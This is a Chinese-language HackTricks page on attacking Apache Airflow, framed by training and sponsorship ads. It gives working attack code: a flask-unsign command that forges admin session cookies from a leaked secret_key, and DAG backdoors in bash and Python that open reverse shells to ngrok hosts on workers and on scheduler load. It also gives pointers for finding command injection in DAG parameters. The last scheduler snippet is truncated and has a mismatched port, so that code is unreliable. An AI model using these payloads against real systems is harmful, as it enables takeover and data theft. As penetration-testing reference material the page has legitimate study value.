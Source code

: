 # Apache Airflow Security

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

### 基本信息

[**Apache Airflow**](https://airflow.apache.org) 作为一个平台，用于 **编排和调度数据管道或工作流**。在数据管道的上下文中，“编排”一词表示安排、协调和管理来自各种来源的复杂数据工作流的过程。这些编排的数据管道的主要目的是提供经过处理和可消费的数据集。这些数据集被广泛应用于众多应用程序，包括但不限于商业智能工具、数据科学和机器学习模型，所有这些都是大数据应用程序正常运行的基础。

基本上，Apache Airflow 允许您 **在某些事情**（事件，cron） **发生时调度代码的执行**。

### 本地实验室

#### Docker-Compose

您可以使用来自 [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) 的 **docker-compose 配置文件** 启动一个完整的 Apache Airflow Docker 环境。（如果您在 MacOS 上，请确保给 Docker 虚拟机至少 6GB 的内存）。

#### Minikube

运行 Apache Airflow 的一种简单方法是 **使用 Minikube**：
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Airflow 配置

Airflow 可能在其配置中存储 **敏感信息**，或者您可能会发现存在弱配置：

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### Airflow RBAC

在开始攻击 Airflow 之前，您应该了解 **权限是如何工作的**：

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### 攻击

#### Web 控制台枚举

如果您有 **访问 web 控制台** 的权限，您可能能够访问以下一些或全部信息：

* **变量**（自定义敏感信息可能存储在这里）
* **连接**（自定义敏感信息可能存储在这里）
* 在 `http://<airflow>/connection/list/` 中访问它们
* [**配置**](./#airflow-configuration)（敏感信息如 **`secret_key`** 和密码可能存储在这里）
* 列出 **用户和角色**
* **每个 DAG 的代码**（可能包含有趣的信息）

#### 检索变量值

变量可以存储在 Airflow 中，以便 **DAG** 可以 **访问** 其值。这类似于其他平台的秘密。如果您有 **足够的权限**，可以在 GUI 中访问它们，地址为 `http://<airflow>/variable/list/`。\
Airflow 默认会在 GUI 中显示变量的值，但根据 [**这个**](https://marclamberti.com/blog/variables-with-apache-airflow/) 的说法，可以设置一个 **变量列表**，其 **值** 将在 **GUI** 中显示为 **星号**。

![](<../../.gitbook/assets/image (164).png>)

然而，这些 **值** 仍然可以通过 **CLI**（您需要有数据库访问权限）、**任意 DAG** 执行、**API** 访问变量端点（需要激活 API），甚至 **GUI 本身** 来 **检索**！\
要从 GUI 访问这些值，只需 **选择您想访问的变量**，然后 **点击操作 -> 导出**。\
另一种方法是对 **隐藏值** 执行 **暴力破解**，使用 **搜索过滤** 直到您获取到它：

![](<../../.gitbook/assets/image (152).png>)

#### 权限提升

如果 **`expose_config`** 配置设置为 **True**，则从 **用户角色** 及 **以上** 可以 **读取** **web 中的配置**。在此配置中，**`secret_key`** 出现，这意味着任何拥有此有效密钥的用户都可以 **创建自己的签名 cookie 来冒充任何其他用户账户**。
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG 后门 (Airflow worker 中的 RCE)

如果您对 **DAG 保存的位置** 有 **写入权限**，您可以 **创建一个** 发送 **反向 shell** 的 **DAG**。\
请注意，这个反向 shell 将在 **airflow worker 容器** 内部执行：
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG 后门 (Airflow 调度器中的 RCE)

如果您将某些内容设置为**在代码的根目录中执行**，在撰写本文时，它将在将其放入 DAG 文件夹后几秒钟内**由调度器执行**。
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### DAG 创建

如果你成功**攻陷了 DAG 集群中的一台机器**，你可以在 `dags/` 文件夹中创建新的 **DAG 脚本**，它们将会在 DAG 集群中的其余机器上**复制**。

#### DAG 代码注入

当你从 GUI 执行一个 DAG 时，你可以**传递参数**给它。\
因此，如果 DAG 编写不当，它可能会**容易受到命令注入攻击。**\
这就是在这个 CVE 中发生的情况：[https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

你需要知道的**开始寻找 DAG 中命令注入的方法**是**参数**是通过代码 **`dag_run.conf.get("param_name")`** 来**访问**的。

此外，**变量**也可能出现相同的漏洞（请注意，拥有足够权限的情况下，你可以在 GUI 中**控制变量的值**）。变量通过以下方式**访问**：
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
如果它们被用于例如 bash 命令中，你可能会执行命令注入。

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
